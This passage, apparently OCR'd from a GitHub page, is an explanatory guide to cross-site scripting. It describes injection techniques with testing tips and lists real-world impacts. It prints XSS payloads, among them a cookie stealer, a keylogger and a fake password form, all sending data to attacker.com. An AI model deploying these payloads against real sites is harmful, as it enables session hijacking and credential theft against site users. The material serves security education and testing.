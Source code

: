             <img src="x" onerror="alert('XSS')">
    - Testing: Inject event handlers into fields and parameters that accept HTML content.
3. Attribute Injection
    - Technique: Injecting malicious scripts into HTML attributes, such as ```src```, ```href```, or ```style```.
    - Example:
        
            <a href="javascript:alert('XSS')">Click here</a>
    - Testing: Test if user input is injected into attributes like ```href``` or ```src``` without proper sanitization.
4. JavaScript Protocol Injection
    - Technique: Exploiting unsafe handling of URLs where the javascript: protocol is allowed, leading to script execution.
    - Example:
        
            <a href="javascript:alert('XSS')">Click me</a>
    - Testing: Check if links or inputs accept the ```javascript:``` protocol.

## Real-World Impacts of XSS
1. Session Hijacking
    - Description: XSS can steal session cookies using ```document.cookie```, allowing the attacker to hijack the victim’s session.
    - Example:
        
            <script>document.location='http://attacker.com?cookie=' + document.cookie</script>
    - Impact: The attacker gains control over the victim’s session, possibly leading to account takeover.
2. Keylogging
    - Description: XSS can capture user input (e.g., keystrokes, form submissions) by injecting a keylogger script.
    - Example:
        
            <script> 
                document.onkeypress = function(e) {  
                    var key = e keyCode || e.which;  
                    document.location='http://attacker.com?key=' + String.fromCharCode(key);} 
            </script>
    - Impact: Sensitive data like passwords or credit card numbers can be stolen.
3. Content Spoofing / Defacement
    - Description: Attackers can inject scripts that modify the appearance or content of a web page to mislead users or damage the site’s reputation.
    - Example:
        
            <script>document.body.innerHTML="Hacked by Attacker"</script>
    - Impact: Attackers can deface websites or display false information.
4. Phishing Attacks
    - Description: Attackers inject fake forms or login screens to capture user credentials.
    - Example:
        
            <form action="http://attacker.com/steal" method="post">  Enter your password: <input type="password" name="password"></form>
    - Impact: Users may unknowingly submit sensitive information directly to the attacker.
